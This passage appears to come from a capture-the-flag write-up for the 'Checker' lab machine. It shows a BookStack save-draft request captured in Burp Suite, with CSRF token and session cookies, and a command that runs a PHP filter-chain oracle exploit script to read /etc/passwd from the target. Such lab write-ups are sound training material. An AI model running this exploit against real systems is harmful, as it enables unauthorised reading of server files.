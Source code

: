 ![](/assets/img/img_Checker/Checker-1740267670330.png)

Turn on intercept on burpsuite:

![](/assets/img/img_Checker/Checker-1740267690474.png)

Save the draft:

![](/assets/img/img_Checker/Checker-1740267704432.png)

Which gets us the following information:

```http
PUT /ajax/page/15/save-draft HTTP/1.1
X-CSRF-TOKEN: CYl9RDoY8eceMlQUGYBMka1pqAmPJ0665QQN2qWm
Cookie: XSRF-TOKEN=eyJpdiI6IlJvRWZpOGpvVExxMDU0NHZlaE1ZMnc9PSIsInZhbHVlIjoiSHZueEhEMHJtdlRMMENkMUV3UlY5QW95bTNhbE5ISUVqUi9OcGM3S2VseEdhZFkwSlR5QVM5RVZ2TnBTY3IrMDNraU9BZUhUaU8wSXJlVUJlS3lQN3VYaWdnelJuS0JuQVRHRXBlek0wZnR5KzljUWhlOFk4VXJuZDU5YWpTYWQiLCJtYWMiOiI3NDY1NjIxMmRlNjg3NTMyNDI3MjZlY2UwYmE1MDc3MmMzMGI2OTQxY2U5NTM0YjFkYjM0NmJlZDdhNDhkMjk5IiwidGFnIjoiIn0%3D; bookstack_session=eyJpdiI6IjJoVE9Pd3B0aWVtT3IySUFWZ29BV0E9PSIsInZhbHVlIjoicHFXMkpQa3VUSXZHcUFndHZIRjFReHlua3Q4UVR4K1M0WlN1cmV1byszeDU2bWNGandrd2dJRlVkZjJJVnV0WS9Nb0Q5dGlSbHJwZ2l2UWUrVHVSS1NML0VnWDZxTTlib3R2cTFKZDVzMk45OEpoK0VQelF1bTlpOU40bFJTb1YiLCJtYWMiOiJhYzAxYjg3OWQzODdjNGU4NjA2MTYzMzVkMDAxYzcwZGRmZjI3MWJiYWZhZjQyMmUzOTk3NjM5NTg3OTk2YTY2IiwidGFnIjoiIn0%3D; teampass_session=4a3623ea162arpdjaojsb3rb7j; jstree_select=1
```

Using this information let's put in some headers in our updated PoC, note the `Content-Type` header used to trigger the urlencoded function to parse our payload:

```
python3 filters_chain_oracle_exploit.py --target http://checker.htb/ajax/page/15/save-draft --file '/etc/passwd' --verb PUT --parameter html --headers '{"X-CSRF-TOKEN":"CYl9RDoY8eceMlQUGYBMka1pqAmPJ0665QQN2qWm","Content-Type":"application/x-www-form-urlencoded","Cookie":"bookstack_session=eyJpdiI6IjJoVE9Pd3B0aWVtT3IySUFWZ29BV0E9PSIsInZhbHVlIjoicHFXMkpQa3VUSXZHcUFndHZIRjFReHlua3Q4UVR4K1M0WlN1cmV1byszeDU2bWNGandrd2dJRlVkZjJJVnV0WS9Nb0Q5dGlSbHJwZ2l2UWUrVHVSS1NML0VnWDZxTTlib3R2cTFKZDVzMk45OEpoK0VQelF1bTlpOU40bFJTb1YiLCJtYWMiOiJhYzAxYjg3OWQzODdjNGU4NjA2MTYzMzVkMDAxYzcwZGRmZjI3MWJiYWZhZjQyMmUzOTk3NjM5NTg3OTk2YTY2IiwidGFnIjoiIn0%3D"}'
```
